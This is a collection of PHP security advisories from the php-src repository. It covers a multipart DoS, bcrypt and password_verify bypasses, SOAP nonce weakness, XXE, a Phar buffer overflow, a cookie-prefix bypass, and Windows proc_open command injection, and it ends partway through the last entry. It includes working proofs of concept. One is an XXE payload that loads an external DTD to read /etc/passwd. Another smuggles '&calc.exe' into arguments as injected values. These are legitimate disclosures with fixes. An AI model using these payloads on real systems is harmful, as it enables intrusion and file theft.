


# Repository security advisories: php/php-src (66 published)

Verbatim from GitHub API `repos/php/php-src/security-advisories` on 2026-11-12.

## GHSA-54hq-v5wp-fqgv — DoS vulnerability when parsing multipart request body
- CVE: CVE-2023-0662 | Severity: high | CVSS: 7.5 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` | CWE: CWE-400, CWE-779
- Published: 2023-02-15T20:32:24Z | URL: https://github.com/php/php-src/security/advisories/GHSA-54hq-v5wp-fqgv
- Affected php/PHP: vulnerable <=8.0.27 patched 8.0.28
- Affected php/PHP: vulnerable >=8.1.0, <=8.1.15 patched 8.1.16
- Affected php/PHP: vulnerable >=8.2.0, <=8.2.2 patched 8.2.3
- Credits: das7pad

### Summary

The request body parsing in PHP allows any unauthenticated attacker to consume
 a large amount of CPU time and trigger excessive logging.

### Details

The multipart body parser processes an unlimited number of file parts.
The multipart body parser processes an unlimited number of field parts.
The multipart body parser emits an unbound number of warning messages.

### Impact

This is a remote unauthenticated Denial of Service vulnerability.

The default/production configuration is affected by this vulnerability.

The large amount of CPU time required for processing requests can block all
 available worker processes and significantly delay or slow down the processing
 of legitimate user requests.
The large volume of warning messages can wear down the disk and fill it up.
Complete DoS is achievable by sending many concurrent multipart requests in a
 loop.

PHP parses the request body before invoking any application scripts.
This vulnerability affects all PHP websites that accept POST request bodies
 (`post_max_size` set to a value greater than zero, the default value is 8MB).

As a mitigation, users can decrease `post_max_size` close to zero. This will
 render most websites non-interactive and/or break file uploads.


## GHSA-7fj2-8x79-rjf4 — BCrypt hashes erroneously validate if the salt is cut short by `$`
- CVE: CVE-2023-0567 | Severity: low | CVSS: None `None` | CWE: 
- Published: 2023-02-15T20:37:12Z | URL: https://github.com/php/php-src/security/advisories/GHSA-7fj2-8x79-rjf4
- Affected php/: vulnerable < 8.0.28 patched 8.0.28
- Affected php/: vulnerable < 8.1.16 patched 8.1.16
- Affected php/: vulnerable < 8.2.3 patched 8.2.3
- Credits: TimWolla

### Summary

Malformatted BCrypt hashes that include a `$` within their salt part will trigger a buffer overread and may erroneously validate any password as valid.


### Details

Example:

```php
<?php
var_dump(password_verify("foo", '$2y$04$00000000$')); // bool(true)
?>
```

This issue is caused by a PHP specific modification to the crypt_blowfish implementation that is fittingly named “PHP hack”:

https://github.com/php/php-src/blob/2740920a392c043b034e2f0e41d819549836712a/ext/standard/crypt_blowfish.c#L374

The “hack” will allow a salt that is cut short by `$` to be detected as valid and allowing it to proceed with the algorithm. At the end the original `setting`, which is properly NUL terminated, will be copied into the output buffer:

https://github.com/php/php-src/blob/2740920a392c043b034e2f0e41d819549836712a/ext/standard/crypt_blowfish.c#L763

which is then used to initialize the returned `zend_string` by leveraging `strlen()` and thus cutting the string short after the `setting`:

https://github.com/php/php-src/blob/2740920a392c043b034e2f0e41d819549836712a/ext/standard/crypt.c#L137

… thus returning the original input.

Furthermore a buffer overread of the `setting` input may be triggered when copying the `setting` into the output buffer, because the `memcpy` uses fixed sizes, even if the `setting` might be too short:

https://github.com/php/php-src/blob/2740920a392c043b034e2f0e41d819549836712a/ext/standard/crypt_blowfish.c#L763

### Suggested Fix

The suggested fix would be removing the “PHP Hack” and thus the differences between PHP's crypt_blowfish and Openwall’s implementation which is the basis of PHP’s implementation.

The “PHP Hack” exists since the very first version of PHP’s own crypt_blowfish implementation and no clear reasoning is given for its existence in the commentary or commit history. In any case such a hash is not a valid BCrypt hash and it is not generated by `password_hash()`, which is the recommended password hashing API in PHP.

While this technically might break backwards compatibility with existing users, the fact that these hashes are never generated by `password_hash()`, are not accepted by other implementations of BCrypt and introduce possible security vulnerabilities in applications, they should be rejected in every supported PHP version.

### PoC

Running the following in valgrind:

```php
<?php
var_dump(password_verify("foo", '$2y$04$00000000$')); // bool(true)
?>
```

results in:
```
==423829== Memcheck, a memory error detector
==423829== Copyright (C) 2002-2017, and GNU GPL'd, by Julian Seward et al.
==423829== Using Valgrind-3.15.0 and LibVEX; rerun with -h for copyright info
==423829== Command: sapi/cli/php test3.php
==423829== 
==423829== Invalid read of size 2
==423829==    at 0x4840240: memcpy@GLIBC_2.2.5 (in /usr/lib/x86_64-linux-gnu/valgrind/vgpreload_memcheck-amd64-linux.so)
==423829==    by 0x591BE9: BF_crypt (crypt_blowfish.c:763)
==423829==    by 0x591DAD: php_crypt_blowfish_rn (crypt_blowfish.c:830)
==423829==    by 0x5D76BC: php_crypt (crypt.c:143)
==423829==    by 0x68CC98: php_password_bcrypt_verify (password.c:157)
==423829==    by 0x68DD3C: zif_password_verify (password.c:635)
==423829==    by 0x7A58C1: ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER (zend_vm_execute.h:1295)
==423829==    by 0x81F2AF: execute_ex (zend_vm_execute.h:55163)
==423829==    by 0x824B54: zend_execute (zend_vm_execute.h:59523)
==423829==    by 0x769201: zend_execute_scripts (zend.c:1694)
==423829==    by 0x6B0B56: php_execute_script (main.c:2545)
==423829==    by 0x869719: do_cli (php_cli.c:949)
==423829==  Address 0x704da90 is 0 bytes after a block of size 48 alloc'd
==423829==    at 0x483B7F3: malloc (in /usr/lib/x86_64-linux-gnu/valgrind/vgpreload_memcheck-amd64-linux.so)
==423829==    by 0x7286E6: __zend_malloc (zend_alloc.c:3056)
==423829==    by 0x726FFF: _malloc_custom (zend_alloc.c:2418)
==423829==    by 0x7271C0: _emalloc (zend_alloc.c:2537)
==423829==    by 0x840E4B: zend_string_alloc (zend_string.h:144)
==423829==    by 0x840EBE: zend_string_init (zend_string.h:166)
==423829==    by 0x841BCB: zend_new_interned_string_request (zend_string.c:245)
==423829==    by 0x72B5E9: zval_make_interned_string (zend_compile.c:514)
==423829==    by 0x72B664: zend_insert_literal (zend_compile.c:526)
==423829==    by 0x72B7EC: zend_add_literal (zend_compile.c:547)
==423829==    by 0x72FC82: zend_emit_op (zend_compile.c:2054)
==423829==    by 0x73380D: zend_compile_args (zend_compile.c:3516)
==423829== 
==423829== Invalid read of size 1
==423829==    at 0x591BF5: BF_crypt (crypt_blowfish.c:765)
==423829==    by 0x591DAD: php_crypt_blowfish_rn (crypt_blowfish.c:830)
==423829==    by 0x5D76BC: php_crypt (crypt.c:143)
==423829==    by 0x68CC98: php_password_bcrypt_verify (password.c:157)
==423829==    by 0x68DD3C: zif_password_verify (password.c:635)
==423829==    by 0x7A58C1: ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER (zend_vm_execute.h:1295)
==423829==    by 0x81F2AF: execute_ex (zend_vm_execute.h:55163)
==423829==    by 0x824B54: zend_execute (zend_vm_execute.h:59523)
==423829==    by 0x769201: zend_execute_scripts (zend.c:1694)
==423829==    by 0x6B0B56: php_execute_script (main.c:2545)
==423829==    by 0x869719: do_cli (php_cli.c:949)
==423829==    by 0x86A950: main (php_cli.c:1337)
==423829==  Address 0x704da94 is 4 bytes after a block of size 48 alloc'd
==423829==    at 0x483B7F3: malloc (in /usr/lib/x86_64-linux-gnu/valgrind/vgpreload_memcheck-amd64-linux.so)
==423829==    by 0x7286E6: __zend_malloc (zend_alloc.c:3056)
==423829==    by 0x726FFF: _malloc_custom (zend_alloc.c:2418)
==423829==    by 0x7271C0: _emalloc (zend_alloc.c:2537)
==423829==    by 0x840E4B: zend_string_alloc (zend_string.h:144)
==423829==    by 0x840EBE: zend_string_init (zend_string.h:166)
==423829==    by 0x841BCB: zend_new_interned_string_request (zend_string.c:245)
==423829==    by 0x72B5E9: zval_make_interned_string (zend_compile.c:514)
==423829==    by 0x72B664: zend_insert_literal (zend_compile.c:526)
==423829==    by 0x72B7EC: zend_add_literal (zend_compile.c:547)
==423829==    by 0x72FC82: zend_emit_op (zend_compile.c:2054)
==423829==    by 0x73380D: zend_compile_args (zend_compile.c:3516)
==423829== 
bool(true)
==423829== 
==423829== HEAP SUMMARY:
==423829==     in use at exit: 1,094 bytes in 20 blocks
==423829==   total heap usage: 15,723 allocs, 15,703 frees, 2,766,336 bytes allocated
==423829== 
==423829== LEAK SUMMARY:
==423829==    definitely lost: 0 bytes in 0 blocks
==423829==    indirectly lost: 0 bytes in 0 blocks
==423829==      possibly lost: 0 bytes in 0 blocks
==423829==    still reachable: 1,094 bytes in 20 blocks
==423829==         suppressed: 0 bytes in 0 blocks
==423829== Rerun with --leak-check=full to see details of leaked memory
==423829== 
==423829== For lists of detected and suppressed errors, rerun with: -s
==423829== ERROR SUMMARY: 3 errors from 2 contexts (suppressed: 0 from 0)
```

### Impact

Applications that validate passwords with malformed or untrusted hashes might be affected by returning every password as valid for affected hashes.

## GHSA-76gg-c692-v2mw — Missing error check and insufficient random bytes in HTTP Digest authentication for SOAP
- CVE: CVE-2023-3247 | Severity: low | CVSS: None `None` | CWE: CWE-252, CWE-334
- Published: 2023-06-12T14:20:53Z | URL: https://github.com/php/php-src/security/advisories/GHSA-76gg-c692-v2mw
- Affected /: vulnerable < 8.0.29 patched 8.0.29
- Affected /: vulnerable < 8.1.20 patched 8.1.20
- Affected /: vulnerable < 8.2.7 patched 8.2.7
- Credits: ndossche, TimWolla

**This report was co-authored by @timwolla**

### Summary

The random byte generation function used in the SOAP HTTP Digest authentication code is not checked for failure. This can result in a stack information leak. Furthermore, there's an insufficient number of random bytes used.

### Details

Context: https://github.com/php/php-src/blob/af809ef028e1e3ed59284e2506cab0f275b55d8e/ext/soap/php_http.c#L664-L671

If `php_random_bytes_throw` fails, the nonce will be uninitialized, but
still sent to the server. The client nonce is intended to protect
against a malicious server. See section 5.10 and 5.12 of [RFC 7616](https://www.rfc-editor.org/rfc/rfc7616),
and bullet point 2 below.

Tim pointed out that even though it's the MD5 of the nonce that gets sent,
enumerating 31 bits is trivial. So we have still a stack information leak
of 31 bits.

Furthermore, Tim found the following issues:
* The small size of cnonce might cause the server to erroneously reject
  a request due to a repeated (cnonce, nc) pair. As per the birthday
  problem 31 bits of randomness will return a duplication with 50%
  chance after less than 55000 requests and nc always starts counting at 1.
* The cnonce is intended to protect the client and password against a
  malicious server that returns a constant server nonce where the server
  precomputed a rainbow table between passwords and correct client response.
  As storage is fairly cheap, a server could precompute the client responses
  for (a subset of) client nonces and still have a chance of reversing the
  client response with the same probability as the cnonce duplication.

  Precomputing the rainbow table for all 2^31 cnonces increases the rainbow
  table size by factor 2 billion, which is infeasible. But precomputing it
  for 2^14 cnonces only increases the table size by factor 16k and the server
  would still have a 10% chance of successfully reversing a password with a
  single client request.

### PoC

We do not have a proof-of-concept.

### Impact

The weak randomness affects applications that use SOAP with HTTP Digest authentication against a possibly malicious server over HTTP. The stack information leak applies to both HTTP and HTTPS, but is only a few bytes.

### Proposed patch

This patch fixes the issues by increasing the nonce size, and checking
the return value of php_random_bytes_throw(). In the process we also get
rid of the MD5 hashing of the nonce.

```diff
From f26fcd3a152a5c6b2d140cb35a5040671696f6e1 Mon Sep 17 00:00:00 2001
From: Niels Dossche <7771979+nielsdos@users.noreply.github.com>
Date: Sun, 16 Apr 2023 15:05:03 +0200
Subject: [PATCH] Fix missing randomness check and insufficient random bytes
 for SOAP HTTP Digest
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit

If php_random_bytes_throw fails, the nonce will be uninitialized, but
still sent to the server. The client nonce is intended to protect
against a malicious server. See section 5.10 and 5.12 of RFC 7616 [1],
and bullet point 2 below.

Tim pointed out that even though it's the MD5 of the nonce that gets sent,
enumerating 31 bits is trivial. So we have still a stack information leak
of 31 bits.

Furthermore, Tim found the following issues:
* The small size of cnonce might cause the server to erroneously reject
  a request due to a repeated (cnonce, nc) pair. As per the birthday
  problem 31 bits of randomness will return a duplication with 50%
  chance after less than 55000 requests and nc always starts counting at 1.
* The cnonce is intended to protect the client and password against a
  malicious server that returns a constant server nonce where the server
  precomputed a rainbow table between passwords and correct client response.
  As storage is fairly cheap, a server could precompute the client responses
  for (a subset of) client nonces and still have a chance of reversing the
  client response with the same probability as the cnonce duplication.

  Precomputing the rainbow table for all 2^31 cnonces increases the rainbow
  table size by factor 2 billion, which is infeasible. But precomputing it
  for 2^14 cnonces only increases the table size by factor 16k and the server
  would still have a 10% chance of successfully reversing a password with a
  single client request.

This patch fixes the issues by increasing the nonce size, and checking
the return value of php_random_bytes_throw(). In the process we also get
rid of the MD5 hashing of the nonce.

[1] RFC 7616: https://www.rfc-editor.org/rfc/rfc7616

Co-authored-by: Tim Düsterhus <timwolla@php.net>
---
 ext/soap/php_http.c | 21 +++++++++++++--------
 1 file changed, 13 insertions(+), 8 deletions(-)

diff --git a/ext/soap/php_http.c b/ext/soap/php_http.c
index db3c97b647..a619949c69 100644
--- a/ext/soap/php_http.c
+++ b/ext/soap/php_http.c
@@ -657,18 +657,23 @@ try_again:
 			has_authorization = 1;
 			if (Z_TYPE_P(digest) == IS_ARRAY) {
 				char          HA1[33], HA2[33], response[33], cnonce[33], nc[9];
-				zend_long     nonce;
+				unsigned char nonce[16];
 				PHP_MD5_CTX   md5ctx;
 				unsigned char hash[16];
 
-				php_random_bytes_throw(&nonce, sizeof(nonce));
-				nonce &= 0x7fffffff;
+				if (UNEXPECTED(php_random_bytes_throw(&nonce, sizeof(nonce)) != SUCCESS)) {
+					ZEND_ASSERT(EG(exception));
+					php_stream_close(stream);
+					convert_to_null(Z_CLIENT_HTTPURL_P(this_ptr));
+					convert_to_null(Z_CLIENT_HTTPSOCKET_P(this_ptr));
+					convert_to_null(Z_CLIENT_USE_PROXY_P(this_ptr));
+					smart_str_free(&soap_headers_z);
+					smart_str_free(&soap_headers);
+					return FALSE;
+				}
 
-				PHP_MD5Init(&md5ctx);
-				snprintf(cnonce, sizeof(cnonce), ZEND_LONG_FMT, nonce);
-				PHP_MD5Update(&md5ctx, (unsigned char*)cnonce, strlen(cnonce));
-				PHP_MD5Final(hash, &md5ctx);
-				make_digest(cnonce, hash);
+				php_hash_bin2hex(cnonce, nonce, sizeof(nonce));
+				cnonce[32] = 0;
 
 				if ((tmp = zend_hash_str_find(Z_ARRVAL_P(digest), "nc", sizeof("nc")-1)) != NULL &&
 					Z_TYPE_P(tmp) == IS_LONG) {
-- 
2.40.0

```


## GHSA-3qrf-m4j2-pcrr — Security issue with external entity loading in XML without enabling it
- CVE: CVE-2023-3823 | Severity: high | CVSS: 8.6 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L` | CWE: CWE-611
- Published: 2023-08-05T04:14:38Z | URL: https://github.com/php/php-src/security/advisories/GHSA-3qrf-m4j2-pcrr
- Affected /: vulnerable < 8.0.30 patched 8.0.30
- Credits: nickvergessen, bkatapi

### Summary
After working on the issue some days, we more and more come to the assumption, that the actual issue is lower in the stack than the Nextcloud Server's PHP code. We were able to isolate it to a few lines of plain PHP code (but seemling only after performing a "Nextcloud login")

### Details
After working on the issue some days, we more and more come to the assumption, that the actual issue is lower in the stack than the Nextcloud Server's PHP code. We were able to isolate it to a few lines of plain PHP code (but seemling only after performing a "Nextcloud login"), see POC below.


#### Randomness

The behaviour seems to depend on some "random" factors. A suggestion at the moment is that it's working on the first run in a PHP/Apache process more often then on reused.

- We **were never able** to produce it on Nginx with PHP-FPM
- We **were never able** to produce it on CLI
- We **were able** to reproduce it with latest maintenance versions of PHP 8.0, 8.1 and 8.2 together with Apache2 on Debian
- We **were unable** to reproduce it with latest maintenance versions of PHP using Apache2 on Ubuntu, but the original reporter seems to be running on Ubuntu.

We are sorry that we are unable to give a clearer indication here, but think that the issue is to critical to ignore or keep to ourselves, just because we fail to give clear reproduction systems, because to us it seems like any system consuming XML is affected.

The most reliable system to reproduce it on is our "Developer Docker": https://github.com/juliushaertl/nextcloud-docker-dev/#standalone-containers but that comes with quite some overhead. The enabled PHP modules and PHPINFO output is available here https://gist.github.com/juliushaertl/b458983b5fe87b31bd98ff2dc2468e97 On that system a Nextcloud user admin with password admin is automatically created and the attack can then be executed with a PROPFIND against the dav endpoint:

```
PROPFIND /remote.php/dav/files/<username>/

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "https://bin.icewind.me/r/p0gzLJ"> %remote; %intern; n%trick;]>
<d:propfind  xmlns:d="DAV:" xmlns:oc="http://owncloud.org/ns">
  <d:prop>
    <oc:fileid />
  </d:prop>
</d:propfind>
```

We hope that you can shed light on the situation, to help keeping the PHP world secure, by either confirm there is an issue somewhere inside PHP, libxml2, Apache2 or something else, or pointing us to something that brings clearness why it only happens sometimes.

### PoC

```php
<?php
$xml= "<?xml version='1.0' encoding='utf-8' ?><!DOCTYPE root [<!ENTITY % remote SYSTEM \"https://bin.icewind.me/r/p0gzLJ\"> %remote; %intern; %trick;]><D:propfind xmlns:D='DAV:'><D:allprop/></D:propfind>";
libxml_use_internal_errors(true);
$dom = new DOMDocument();
$dom->loadXML($xml);
echo $dom->textContent;
foreach (libxml_get_errors() as $error) {
		var_dump($error);
}
```

If you don't want to run code from our servers, you can replace `https://bin.icewind.me/r/p0gzLJ` with a link of your own, and make it serve the following content:

```xml
<!ENTITY % payload SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % intern "<!ENTITY &#37; trick SYSTEM 'file://WOOT%payload;WOOT'>">
```

The problem we are now facing is the following:

In most cases we correctly receive:

```
PEReference: %intern; not found on line …, column …
```

the reporter mentioned that when this happens we should try to run it multiple times, and indeed on some systems we received a different response after some runs:

```
WOOT{{base64 encoded content of /etc/passwd}}WOOT
```

### Mitigation

Our current "fix" to the problem is to set an external entity loader (although it's disabled by default and never enabled actively on our side)

```php
libxml_set_external_entity_loader(function () { return null; });
```

In most cases that leaves the response unchanged with:

```
PEReference: %intern; not found on line …, column …
```

But in "successful" cases it now only responds with the following instead of the base64 encoded password file:

```
Failed to load external entity "NULL" on line 0, column 0
```

Interestingly setting the entity loader to null is **not** enough and still leaves the system vulnerable:

```php
libxml_set_external_entity_loader(null);
```

### Impact
* What: The result is a XXE with potential to escalate into a RCE
* Who: Every application/library/server that is parsing/interacting with XML documents


## GHSA-jqcx-ccgc-xwhv — Buffer overflow and overread in phar_dir_read()
- CVE: CVE-2023-3824 | Severity: critical | CVSS: 9.4 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L` | CWE: CWE-120, CWE-121, CWE-122, CWE-126
- Published: 2023-08-05T04:14:59Z | URL: https://github.com/php/php-src/security/advisories/GHSA-jqcx-ccgc-xwhv
- Affected /: vulnerable < 8.0.30 patched 8.0.30
- Credits: ndossche

### Summary

Buffer mismanagement in `phar_dir_read()` causes a buffer overflow and a buffer overread later.

### Details

https://github.com/php/php-src/blob/be71cadc2f899bc39fe27098042139392e2187db/ext/phar/dirstream.c#L89C1-L116

There are few issues here:
* The if check `to_read == 0 || count < ZSTR_LEN(str_key)` is not right.
  In particular, if this is false we know that `count >= ZSTR_LEN(str_key)`.
  Furthermore, because of `to_read = MIN(ZSTR_LEN(str_key), count);` we now actually have: `to_read == ZSTR_LEN(str_key)`.
  If we have a filename length (i.e. `ZSTR_LEN(str_key)`) equal to `sizeof(php_stream_dirent)`, then we get `ZSTR_LEN(str_key) == count == to_read == sizeof(php_stream_dirent)`.
  
  Take a look now at this line: `((php_stream_dirent *) buf)->d_name[to_read + 1] = '\0';`.
  Assume `sizeof(php_stream_dirent)` is 4096 like on most Linuxes. Then we write at offset 4097, which is two bytes outside of `buf`.
  This line was actually supposed to use `to_read` instead of `to_read + 1`, because now even if it doesn't overflow, it does not properly NUL-terminate the filename. We're just lucky there's a memset above.
  Correcting that to use `to_read` doesn't solve the whole problem: it would still overflow because it will write at offset 4096 which is still outside `buf`.
  
  This means we have a stack information leak and a buffer write overflow.
  
* Both the `memset` and the return value assume that `count == sizeof(php_stream_dirent)`.
  In principle if there are any callers where that count is smaller, a buffer overflow occurs in the `memset`.
  However, inside PHP itself I did not find any such caller, but this may be a concern for third-party extensions.

### PoC

I created a reproducer using PHP-8.0 with these configure flags: `./configure --enable-debug --disable-all --enable-phar --with-valgrind` using compiler `gcc (GCC) 13.1.1 20230429`.

Create the malicious Phar file using:

```php
<?php
$phar = new Phar('myarchive.phar');
$phar->startBuffering();
$phar->addFromString(str_repeat('A', PHP_MAXPATHLEN - 1).'B', 'This is the content of the file.');
$phar->stopBuffering();
?>
```

Trigger the buffer overflow and overread using this script:
```php
<?php
$handle = opendir("phar://./myarchive.phar");
$x = readdir($handle);
closedir($handle);

var_dump($x);
?>
```

If you run this in Valgrind, i.e. `valgrind ./sapi/cli/php trigger.php` you'll find two Valgrind complaints:
```
==42575== Conditional jump or move depends on uninitialised value(s)
==42575==    at 0x4847ED8: strlen (vg_replace_strmem.c:501)
==42575==    by 0x53BE9C: zif_readdir (dir.c:389)
==42575==    by 0x6D05C4: ZEND_DO_ICALL_SPEC_RETVAL_USED_HANDLER (zend_vm_execute.h:1295)
==42575==    by 0x742F7D: execute_ex (zend_vm_execute.h:55163)
==42575==    by 0x747848: zend_execute (zend_vm_execute.h:59523)
==42575==    by 0x696376: zend_execute_scripts (zend.c:1694)
==42575==    by 0x5F6D45: php_execute_script (main.c:2546)
==42575==    by 0x788A53: do_cli (php_cli.c:949)
==42575==    by 0x789ADB: main (php_cli.c:1337)
==42575== 
==42575== Syscall param write(buf) points to uninitialised byte(s)
==42575==    at 0x4AA2BC4: write (write.c:26)
==42575==    by 0x7875EA: sapi_cli_single_write (php_cli.c:261)
==42575==    by 0x78768D: sapi_cli_ub_write (php_cli.c:293)
==42575==    by 0x611034: php_output_op (output.c:1082)
==42575==    by 0x60F2B7: php_output_write (output.c:261)
==42575==    by 0x5B3B0D: php_var_dump (var.c:120)
==42575==    by 0x5B432A: zif_var_dump (var.c:218)
==42575==    by 0x6D031A: ZEND_DO_ICALL_SPEC_RETVAL_UNUSED_HANDLER (zend_vm_execute.h:1234)
==42575==    by 0x742F6D: execute_ex (zend_vm_execute.h:55159)
==42575==    by 0x747848: zend_execute (zend_vm_execute.h:59523)
==42575==    by 0x696376: zend_execute_scripts (zend.c:1694)
==42575==    by 0x5F6D45: php_execute_script (main.c:2546)
```

The first complaint is because the strlen() function overreads the d_name buffer because it isn't properly NUL-terminated.
The second one is because it writes the name using var_dump, and the name contains (uninitialized) stack data.
Valgrind won't complain about the stack buffer write overflow, but you can inspect the memory using gdb for example that a piece of the stack gets overwritten.

### Impact

Exploiting this is difficult to do and heavily depends on the application you're targetting, but possible in theory I think using a combination of stack info leaks and buffer write overflows. People who inspect contents of untrusted phar files could be affected.


## GHSA-wpj3-hf5j-x4v4 — __Host-/__Secure- cookie bypass due to partial CVE-2022-31629 fix
- CVE: CVE-2024-2756 | Severity: medium | CVSS: None `None` | CWE: CWE-20
- Published: 2024-04-11T17:12:53Z | URL: https://github.com/php/php-src/security/advisories/GHSA-wpj3-hf5j-x4v4
- Affected /: vulnerable > 8.1.11, < 8.1.28 patched 8.1.28
- Affected /: vulnerable < 8.2.18 patched 8.2.18
- Affected /: vulnerable < 8.3.5 patched 8.3.6
- Credits: lavish

### Summary
Due to an incomplete fix to CVE-2022-31629, network and same-site attackers can set a standard insecure cookie in the victim's browser which is treated as a `__Host-` or `__Secure-` cookie by PHP applications.

### Details
The vulnerability is identical to one previously described in https://bugs.php.net/bug.php?id=81727. Unfortunatly, since CVE-2022-31629 got only partially fixed in PHP >8.1.11, cookies starting with `_[Host-` are parsed by PHP applications as `__Host-`. Notice that I reported this vulnerability multiple times via email after the fix for CVE-2022-31629 landed (I am the original reporter of that CVE), but I guess that the message got lost.

### PoC
```sh
$ echo '<?php echo(json_encode($_COOKIE)); ?>' > x

$ docker run -p 8080:8080 --rm -v $(pwd):$(pwd) php:latest php -S 0.0.0.0:8080 $(pwd)/x

$ curl -b '_[Host-x=y' localhost:8080/x
{"__Host-x":"y"}
```

## GHSA-pc52-254m-w9w7 — Command injection via array-ish $command parameter of proc_open even if bypass_shell option enabled on Windows
- CVE: CVE-2024-1874 | Severity: critical | CVSS: 9.4 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L` | CWE: 
- Published: 2024-04-11T17:15:14Z | URL: https://github.com/php/php-src/security/advisories/GHSA-pc52-254m-w9w7
- Affected /: vulnerable < 8.1.28 patched  8.1.28
- Affected /: vulnerable < 8.2.18 patched 8.2.18
- Affected /: vulnerable < 8.3.5 patched 8.3.6
- Credits: Ry0taK

### Summary
**NOTE:** There are undergoing reports regarding the command injection when executing the batch file, and several programming languages are coordinating the disclosure date. If you decide to not consider this as a vulnerability, please do not disclose this behavior until the end of February. If the coordinated disclosure is needed, please let me know.

Due to the improper handling of command line arguments on Windows, maliciously crafted arguments can inject arbitrary commands even if the `bypass_shell` option is enabled.

### Details
`proc_open` executes external commands passed via its arguments. The documentation of this function [states the following](https://www.php.net/manual/en/function.proc-open.php):

```
As of PHP 7.4.0, the command may be passed as an array of command parameters. In this case, the process will be opened directly (without going through a shell) and PHP will take care of any necessary argument escaping. 
```

```
bypass_shell (windows only): bypass cmd.exe shell when set to true
```

However, when executing `.bat` or `.cmd` files, `CreateProcess` implicitly spawns `cmd.exe`, resulting in command line arguments being parsed in `cmd.exe` despite the documentation explicitly stating it doesn't spawn the shell.
While `proc_open` tries to escape the arguments, command prompts will not recognize `\` as the escape character. So, the following command line argument will spawn `calc.exe`:

``` batch
test.bat "\"&calc.exe"
```

### PoC
1. Save the following file as `test.bat`.
``` batch
echo hello
```
2. Save the following file as `test.php`
``` php
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes);
proc_close($proc);
```
3. Run it with PHP and confirm that `notepad.exe` is executed.

Alternatively, you can use the following PHP file to confirm that the `bypass_shell` option doesn't prevent this behavior.
``` php
<?php
$descriptorspec = [STDIN, STDOUT, STDOUT];
$proc = proc_open(["test.bat", "\"&notepad.exe"], $descriptorspec, $pipes, null, null, array("bypass_shell" => true));
proc_close($proc);
```

### Impact
This vulnerability allows malicious command line arguments to execute arbitrary commands if it's passed to `.bat` or `.cmd` through `proc_open`.
Since command line arguments are not expected to be parsed via the shell, it allows unexpected code execution.

## GHSA-h746-cjrr-wfmr — password_verify can erroneously return true, opening ATO risk
- CVE: CVE-2024-3096 | Severity: low | CVSS: None `None` | CWE: CWE-626
- Published: 2024-04-11T22:59:01Z | URL: https://github.com/php/php-src/security/advisories/GHSA-h746-cjrr-wfmr
- Affected /: vulnerable < 8.1.28 patched  8.1.28
- Affected /: vulnerable < 8.2.18 patched 8.2.18
- Affected /: vulnerable < 8.3.5 patched 8.3.6
- Credits: Firehed

### Summary
If a password stored with `password_hash` starts with a null byte (`\x00`), testing a blank string as the password via `password_verify` will incorrectly return `true`.

If a user were able to create a password with a leading null byte (unlikely, but syntactically valid), an attacker could trivially compromise the victim's account by attempting to sign in with a blank string.

### Details

```
$ php -v
PHP 8.3.2 (cli) (built: Jan 16 2024 13:46:41) (NTS)
Copyright (c) The PHP Group
Zend Engine v4.3.2, Copyright (c) Zend Technologies
    with Xdebug v3.3.0, Copyright (c) 2002-2023, by Derick Rethans
    with Zend OPcache v8.3.2, Copyright (c), by Zend Technologies
```

This appears to exist at least back to 8.1.0: https://3v4l.org/Z0pcl

### PoC
 $ cat pw_bug.php
```php
<?php

declare(strict_types=1);

$pw = "\x00\x30";
$hash = password_hash($pw, PASSWORD_DEFAULT);

assert(password_verify(password: 'wrong', hash: $hash) === false, 'Incorect password should not verify');
assert(password_verify(password: '', hash: $hash) === false, 'Blank password should not verify');
assert(password_verify(password: $pw, hash: $hash) === true, 'Correct password should verify');
assert(password_verify(password: strrev($pw), hash: $hash) === false, 'Reversed correct password not should verify');
```

$ php pw_bug.php
```
AssertionError: Blank password should not verify in .../pw_bug.php on line 9

Call Stack:
    0.0002     496408   1. {main}() .../pw_bug.php:0
    0.1998     496536   2. assert($assertion = FALSE, $description = 'Blank password should not verify') .../pw_bug.php:9
```

### Impact
Medium?

This could be catastrophic in the right circumstance, but the chance of that circumstance existing is extremely low. Typically a user would get blocked from setting a password containing (never mind starting with) binary data through input filtering and application-specific password rules. Similar rules are likely employed on the checking side, though usually less strict.

## GHSA-fjp9-9hwx-59fq — mb_encode_mimeheader runs endlessly for some inputs
- CVE: CVE-2024-2757 | Severity: high | CVSS: 7.5 `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H` | CWE: 
- Published: 2024-04-11T23:00:59Z | URL: https://github.com/php/php-src/security/advisories/GHSA-fjp9-9hwx-59fq
- Affected /: vulnerable < 8.3.5 patched 8.3.6
- Credits: BGehrels

### Summary
Certain inputs provided to mb_encode_mimeheader trigger an endless loop.

### Details
